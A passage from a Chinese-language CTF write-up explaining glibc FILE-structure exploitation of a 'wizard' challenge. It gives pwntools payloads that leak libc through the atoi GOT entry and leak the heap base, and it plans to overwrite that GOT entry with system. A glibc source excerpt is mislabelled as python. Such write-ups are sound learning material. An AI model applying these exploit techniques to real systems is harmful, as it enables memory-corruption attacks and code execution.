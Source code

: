 紧接上文，我们可以将`FILE`的`_IO_read_ptr`的值修改为`atoi_got`，这样在下一次调用`wizard_spell` 时调用`fwrite` 会将`_IO_read_ptr`指向的值也就是`atoi` 的实际地址读入到`log_file` 中，然后通过`fread` 打印出来，泄露`libc` 。需要注意这里我们应该向`wizard[0]` 而不是`wizard[-2]`中输入payload，因为我们并不想让`_IO_write_ptr` 减少50。同时应该尽量保持其他`FILE` 数据不变。

```python
# leak libc
payload = '\x00'
payload += p64(0xfbad24a8)
spell(0,payload)
payload = p64(atoi_got) + p64(atoi_got + 0x100)
spell(0,payload)
atoi_addr = u64(p.recv(8))
print hex(atoi_addr)
```

于是我们泄露了`libc` ，此时的`_IO_write_ptr`指向了`_IO_read_base` ，也即`FILE` +24偏移处，所以我们重新利用`wizard[-2]` 来使`_IO_write_ptr`指回`FILE` 首地址，继续修改`FILE` 来泄露`heap_base` ，而`log_file` 为`FILE`指针，内容即为堆上的地址，用它来泄露`heap_base` 。

```python
# leak heap
spell(-2, '\x00' * 0x10)
spell(0, '\x00' * 10 + p64(0xfbad24a8))
spell(0, p64(log_file) + p64(log_file + 0x50))
heap = u64(p.recvn(8)) - 0x10
print 'heap:',hex(heap)
```

### 修改`atoi_got` 表项

紧接上文，我们现在的`_IO_write_ptr`指向了`_IO_read_base` 。我们下一步是想写`atoi_got` 表项为`system` ，就像上面一样很自然的思路当然是修改`_IO_write_ptr` 使其指向`atoi_got` ，但这是不行的。

回想最开始的一句话，再重复一遍予以强调。

> 在读操作中，我们只能修改写相关的指针，如`_IO_write_base/_IO_write_ptr` 等
>
> 而在写操作中，我们只能修改读相关指针，如`_IO_read_base/_IO_read_ptr`等

具体原因可以在源码中看到，当我们调用写函数并试图修改写指针，写操作完成后`_IO_write_ptr` 会再一次被覆盖，变回了原来的正常情况地址；读函数也类似。在上面的利用过程可以看到我们是利用`fwrite` 修改`_IO_read_ptr` ，所以才能成功泄露。也就是说，如果我们想改写`atoi_got` 表项，我们应该利用`fread` 改写`_IO_write_ptr` 。

#### 源码分析

<font color=red> 这里我们解释一下为什么</font>，笔者说说自己的看法，当然如果耐心看看源码可能会有新的理解，下列代码节选自`_IO_new_file_xsputn` ，也即`fwrite` 核心实现函数。

```python
...
if ((f->_flags & _IO_LINE_BUF) && (f->_flags & _IO_CURRENTLY_PUTTING))
	count = f->_IO_buf_end - f->_IO_write_ptr;
else if (f->_IO_write_end > f->_IO_write_ptr)
    count = f->_IO_write_end - f->_IO_write_ptr;
...
...
// 利用memcpy实现写，其中s为data地址
#ifdef _LIBC
        f->_IO_write_ptr = __mempcpy(f->_IO_write_ptr, s, count);
#else
        memcpy(f->_IO_write_ptr, s, count);
        f->_IO_write_ptr += count;
```
